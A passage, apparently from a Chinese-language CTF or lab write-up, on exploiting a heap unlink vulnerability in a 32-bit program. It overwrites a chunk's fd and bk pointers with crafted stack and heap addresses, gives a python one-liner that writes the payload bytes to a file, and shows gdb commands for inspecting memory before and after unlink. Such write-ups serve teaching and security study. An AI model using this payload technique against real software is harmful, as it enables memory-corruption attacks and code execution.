 B 的 bk 指针，即[B+4]的内容我们覆盖成 ebp-0x4，由 ebp-0x14=stack 可知，`ebp-0x4=stack+0x10=0xbffff344`.

B 的 fd 指针，即[B+0]的内容我们覆盖成 heap+8+4=0x804b41c 处。先把地址写入文件，再让程序从文件中读入数据：

```bash
echo $(python -c "print '\x4b\x85\x04\x08'+'a'*12+'\x1c\xb4\x04\x08'+'\x44\xf3\xff\xbf'") > badfile
```

gets 函数执行之后，unlink 函数执行之前：

```scala
b*0804865a
b*08048668
b*08048677
r <badfile
x/40wx 0x0804b410
```

![image-20220508195002015](unlinkpwn/image-20220508195002015.png)

unlink 函数执行之后：

```scala
x/40wx 0x0804b410

x/40wx $ebp-0x14
```
